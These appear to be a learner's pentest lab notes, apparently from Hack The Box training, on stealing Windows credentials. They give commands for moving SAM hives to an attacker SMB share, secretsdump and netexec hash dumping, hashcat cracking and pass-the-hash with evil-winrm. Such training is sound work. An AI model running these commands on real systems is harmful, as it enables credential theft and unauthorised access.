 

https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4


python3 /home/haxor/pen/venv/bin/smbserver.py -smb2support loot /home/haxor/pen/sharefolder

## LOCAL HASHES

Modern Windows uses the NT hash format you can use the -m 1000 mode in hashcat to crack these hashes

- **SAM** = "Here are the **password hashes** for all user accounts."
    
- **LSA Secrets** = "Here are **passwords and tokens** Windows saved for services, VPNs, cached logins, and other stuff."


[[Attacking SAM (Windows)]]

1. Copy SAM registry
2. Create fake smb share
3. Copy sam registry into there
4. Extract Secrets from with secretsdump.py 
5. Crack the NT hash with hashcat


SMBv1 runs on port 139 this is vuln to eternal blue.  

smbv2/3 port 445 

## CREATE SMB SHARE

/home/haxor/pen/sharefolder must exist

smbserver.py is in impacket

```
python3 /home/haxor/pen/venv/bin/smbserver.py -smb2support loot /home/haxor/pen/sharefolder
```

loot is the name of the smbshare now and can be accessed with
```
\\*IP\loot
```

then use move to move the files you want to that share

for example


```
move sam.save \\10.10.14.86\loot    
```


## Secrets dump

```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

inside of the share you have that you get the NT hash *if you cant find it read*

and crack it or maybe not

## netexec dumping lsa remotly
```
 nxc smb 10.129.237.93 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

do --sam to dump sam instead
## RDP

✅ **RDP (Remote Desktop Protocol)** runs on **port 3389/TCP** by default.

xfreerdp /u:*username* /v:*ip*

itll prompt you for the pw


For LSASS please use

[[Attacking LSASS (Windows)]]




## Cracking NT hashes with hashcat 

Now we can use Hashcat to crack the NT Hash. In this example, we only found one NT hash associated with the Bob user, which means we won't need to create a list of hashes as we did in the `Attacking SAM` section of this module. After setting the mode in the command, we can paste the hash, specify a wordlist, and then crack the hash.

Attacking LSASS

```shell-session
JackTheWizard@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```


## Attacking Active Directory and Custom Usernames

[[Attacking Active Directory & NTDS.dit]]


## CAPTURING NTDS QUICK WAY
https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit

When using this it displays the LM hash format first followed by the NT hash 
username:RID:LM_HASH:NT_HASH::: 

## Pass-the-hash considerations

We can still use hashes to attempt to authenticate using a type of attack called pass the hash or (PtH) a PtH attack takes advantage of  the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work. However if the Domain is using Kererbos authentication which was designed to get rid of the PtH vulnerabilities in NTLM they may have NTLM disabled so this may not work in all domains. 
#### Pass-the-Hash with Evil-WinRM Example

Attacking Active Directory & NTDS.dit

```shell-session
JackTheWizard@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


